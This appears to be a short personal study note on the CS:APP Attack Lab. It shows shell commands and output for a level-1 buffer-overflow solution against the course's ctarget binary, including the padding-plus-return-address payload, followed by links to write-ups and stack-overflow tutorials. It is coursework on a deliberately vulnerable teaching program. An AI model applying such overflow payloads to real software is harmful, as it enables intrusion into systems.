 ```yaml
---
categories: graph
date: 2024-10-12T13:01:56+0800
dir: graph
modify: 2024-12-06T00:12:57+0800
share: true
tags:
  - graph
title: attacklab
---
```


```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
- 一些可以参考的链接
	- [zhuanlan.zhihu.com/p/476396465](https://zhuanlan.zhihu.com/p/476396465)
	- [【CSAPP】AttackLab-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2389328)
	- [【深入理解计算机系统】CSAPP-实验三：AttackLab详解\_attacklab实验三-CSDN博客](https://blog.csdn.net/qq_42234461/article/details/108661775)
	- [Site Unreachable](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
	- [CSAPP-Lab-3 实验报告: attacklab | 一隅](https://tqnwhz.github.io/blog/2023/12/04/CSAPP-Lab-3)
	- [zhuanlan.zhihu.com/p/104340864](https://zhuanlan.zhihu.com/p/104340864)
- 栈溢出
	- [zhuanlan.zhihu.com/p/25816426](https://zhuanlan.zhihu.com/p/25816426)
	- [zhuanlan.zhihu.com/p/25892385](https://zhuanlan.zhihu.com/p/25892385)